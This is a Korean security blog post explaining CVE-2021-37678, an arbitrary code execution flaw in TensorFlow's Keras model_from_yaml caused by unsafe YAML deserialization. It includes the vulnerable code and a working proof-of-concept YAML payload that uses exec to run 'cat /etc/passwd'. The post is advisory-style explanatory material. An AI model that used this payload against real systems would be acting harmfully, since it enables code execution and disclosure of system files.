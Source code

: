```yaml
---
title: "[하루한줄] CVE-2021-37678: Google TensorFlow의 임의 코드 실행 취약점과 YAML 지원 중단"
author: L0ch
tags: [L0ch, google, tensorflow, deserialization, cve]
categories: [1day1line]
date: 2021-09-09 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Arbitrary code execution due to YAML deserialization](https://github.com/tensorflow/tensorflow/security/advisories/GHSA-r6jx-9g48-2r5r)

## Target

- Google TensorFlow < 2.6.0

## Explain

TensorFlow는 머신러닝을 지원하는 Google의 오픈소스 플랫폼입니다. TensorFlow의 yaml 지원 모듈에서 역직렬화 취약점으로 인한 임의 코드 실행 취약점이 발견되었고 해당 취약점은 CVE-2021-37678로 명명되었습니다.

TensorFlow의 Keras 모델 `model_from_yaml` 함수는 yaml 파일을 로드해 역직렬화를 수행합니다.

```python
@keras_export('keras.models.model_from_yaml')
def model_from_yaml(yaml_string, custom_objects=None):
  if yaml is None:
    raise ImportError('Requires yaml module installed (`pip install pyyaml`).')
  try:
    # PyYAML 5.x+
    config = yaml.unsafe_load(yaml_string)
  except AttributeError:
    config = yaml.load(yaml_string)
  from tensorflow.python.keras.layers import deserialize  # pylint: disable=g-import-not-at-top
  return deserialize(config, custom_objects=custom_objects)
```

해당 함수에서 로드하는 yaml에 대한 검증이 부족해 이를 악용하면 아래 `cat /etc/passwd`를 포함하는 페이로드를 `model_from_yaml` 함수의 매개변수로 전달해 실행하는 PoC와 같이 임의의 코드를 실행할 수 있습니다.

```python
from tensorflow.keras import models

payload = '''
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
'''
  
models.model_from_yaml(payload)
```

Google은 해당 취약점을 수정하는 [커밋에서](https://github.com/tensorflow/tensorflow/commit/23d6383eb6c14084a8fc3bdf164043b974818012) YAML 지원을 중단하고 패치를 2.6.0에서 릴리즈함과 동시에 이전 버전에도 backporting 하겠다고 밝혔습니다.